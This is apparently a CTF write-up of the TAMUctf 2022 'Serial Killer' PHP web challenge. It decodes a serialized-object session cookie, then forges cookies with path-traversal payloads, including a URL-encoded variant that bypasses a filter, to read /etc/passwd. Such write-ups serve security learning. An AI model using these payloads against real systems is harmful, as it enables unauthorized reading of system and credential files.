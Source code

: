 Title: Serial Killer
Description: A simple PHP web challenge at TAMUctf 2022.
Date: 2022-04-23
Category: CTF writeups
Tags: web

![challenge description]({static}/images/serialkiller/challenge.png)

When opening the site at [http://serial.tamuctf.com/](http://serial.tamuctf.com/) we only see the static text that talks about a new method of getting files.

![testpage]({static}/images/serialkiller/testpage.png)

Additionally there exists a PHP session ID cookie.

![session ID cookie]({static}/images/serialkiller/sessionid.png)

With the `%3D` in the end, the cookie seems to be URL encoded.

``` JavaScript
decodeURIComponent('Tzo3OiJHZXRQYWdlIjoxOntzOjQ6ImZpbGUiO3M6MTA6ImluZGV4Lmh0bWwiO30%3D')

// "Tzo3OiJHZXRQYWdlIjoxOntzOjQ6ImZpbGUiO3M6MTA6ImluZGV4Lmh0bWwiO30="
```

This URL decoded string then seems to be base64 encoded.

``` JavaScript
atob(decodeURIComponent('Tzo3OiJHZXRQYWdlIjoxOntzOjQ6ImZpbGUiO3M6MTA6ImluZGV4Lmh0bWwiO30%3D'))

// "O:7:\"GetPage\":1:{s:4:\"file\";s:10:\"index.html\";}"
```

And finally this looks like a serialized PHP object.
From the challenge description we know, that the flag is in `/etc/passwd`.
So lets change the filename and set a new session cookie:

``` JavaScript
let serializedPhpObject = 'O:7:"GetPage":1:{s:4:"file";s:19:"../../../etc/passwd";}';
let base64encoded = btoa(serializedPhpObject);
let uriEncoded = encodeURIComponent(base64encoded);

// Tzo3OiJHZXRQYWdlIjoxOntzOjQ6ImZpbGUiO3M6MTk6Ii4uLy4uLy4uL2V0Yy9wYXNzd2QiO30%3D
```

When setting this cookie and reload the page we get the error **You should not be doing that**

![you should not be doing that]({static}/images/serialkiller/error.png)

Probably the input is validated in someway and we have to find another way to write the path to `/etc/passwd`.
After searching the web I found an entry in the [0xffsec Handbook about LFI](https://0xffsec.com/handbook/web-applications/file-inclusion-and-path-traversal/#encoding).

So it makes sense to URL encode the path in the serialized PHP object before base64 encoding the whole object.

``` JavaScript
let serializedPhpObject = 'O:7:"GetPage":1:{s:4:"file";s:37:"%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd";}';
let base64encoded = btoa(serializedPhpObject);
let uriEncoded = encodeURIComponent(base64encoded);

// Tzo3OiJHZXRQYWdlIjoxOntzOjQ6ImZpbGUiO3M6Mzc6IiUyZSUyZSUyZiUyZSUyZSUyZiUyZSUyZSUyZmV0Yy9wYXNzd2QiO30%3D
```

And using this new cookie we can read `/etc/passwd`:

![flag in passwd]({static}/images/serialkiller/flag.png)

So the flag is **`gigem{1nt3r3sting_LFI_vuln}`**
